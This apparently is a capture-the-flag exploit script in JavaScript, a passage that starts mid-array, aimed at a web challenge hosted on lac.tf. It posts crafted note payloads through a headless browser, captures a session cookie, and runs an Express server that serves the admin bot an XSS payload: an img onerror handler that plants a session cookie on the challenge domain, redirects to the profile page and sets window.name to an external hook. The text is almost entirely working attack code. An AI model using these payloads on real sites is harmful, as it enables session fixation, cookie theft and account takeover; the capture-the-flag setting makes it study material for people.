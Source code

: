 ```js=
      "*/location=/*",
      "*/name+_})//",
    ];

    for (let i = 0; i < notes.length; i++) {
      const note = notes[i];
      console.log(
        await fetch("/api/notes", {
          headers: {
            "content-type": "application/json",
          },
          body: JSON.stringify({
            note,
          }),
          method: "POST",
          mode: "cors",
          credentials: "include",
        })
      );
    }
  });

  await new Promise((r) => setTimeout(r, 5000));

  cookie = (await browser.cookies())[0].value;
  await page.close();
} catch (e) {
  console.error(e);
}

await browser.close();

const app = express();

app.get("/", function (req, res) {
  res.setHeader("Content-Type", "text/html");
  res.send(`
<script>
  const sid = "${cookie}";
  const html = \`<img/src/onerror='document.cookie="connect.sid=\${sid}; domain=.chall.lac.tf; path=/profile"; window.location="${chall}/profile";'>\`;

  window.name = "${hook}?";
  window.location = "https://purell.chall.lac.tf/level/start?html=" + encodeURIComponent(html);
</script>
  `);
});

// This pages serves the HTML you feed to the admin bot
app.listen(8080);
console.log("Listening on 8080");
```